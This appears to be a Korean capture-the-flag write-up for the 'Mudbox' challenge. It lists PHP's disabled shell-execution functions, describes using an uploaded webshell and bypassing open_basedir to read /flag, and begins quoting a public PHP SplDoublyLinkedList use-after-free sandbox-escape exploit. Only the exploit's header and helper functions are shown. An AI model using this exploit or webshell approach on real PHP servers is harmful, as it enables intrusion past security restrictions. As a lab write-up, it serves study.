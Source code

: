 ```
pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,getenv,putenv
```
`phpinfo();`에서 disable_functions 설정을 확인 해보니 위와 같이 여러 함수들이 비활성화 되어 있는 것을 확인 할 수 있습니다.

![](https://github.com/P0cas/ctf/blob/main/2021/White%20Hat%20Contest%202021/Mudbox/%EC%8A%A4%ED%81%AC%EB%A6%B0%EC%83%B7%202021-09-12%20%EC%98%A4%ED%9B%84%205.45.14.png?raw=true)

그리고 혹시나 해서 `open_basedir` 설정도 확인 해보니 위와 같이 `/tmp:/var/www/html/data` 설정 되어 있는 것을 확인 했습니다. 플래그는 현재 `/flag`에 있습니다. 또한 우리가 업로드 하는 웹쉘도 `data/` 하위에 생성이 되기 때문에 `data/` 디렉터리에서 현재 경로 및 하위 파일들만 건들 수 있습니다. 

그래서 open_basedir을 우회해서 최상위 디렉터리에 있는 `/flag`를 읽어야 합니다.

open_basedir을 우회하는 첫 번째 방식은 잘 알려진 UAF Sandbox Escape를 이용하는 것 입니다.

```php
<?php
#
# PHP SplDoublyLinkedList::offsetUnset UAF
# Charles Fol (@cfreal_)
# 2020-08-07
# PHP is vulnerable from 5.3 to 8.0 alpha
# This exploit only targets PHP7+.
#
# SplDoublyLinkedList is a doubly-linked list (DLL) which supports iteration.
# Said iteration is done by keeping a pointer to the "current" DLL element.
# You can then call next() or prev() to make the DLL point to another element.
# When you delete an element of the DLL, PHP will remove the element from the
# DLL, then destroy the zval, and finally clear the current ptr if it points
# to the element. Therefore, when the zval is destroyed, current is still
# pointing to the associated element, even if it was removed from the list.
# This allows for an easy UAF, because you can call $dll->next() or
# $dll->prev() in the zval's destructor.
#
#


define('NB_DANGLING', 200);
define('SIZE_ELEM_STR', 40 - 24 - 1);
define('STR_MARKER', 0xcf5ea1);

function i2s(&$s, $p, $i, $x=8)
{
    for($j=0;$j<$x;$j++)
    {
        $s[$p+$j] = chr($i & 0xff);
        $i >>= 8;
    }
}


function s2i(&$s, $p, $x=8)
{
    $i = 0;

    for($j=$x-1;$j>=0;$j--)
    {
        $i <<= 8;
        $i |= ord($s[$p+$j]);
    }

    return $i;
}
```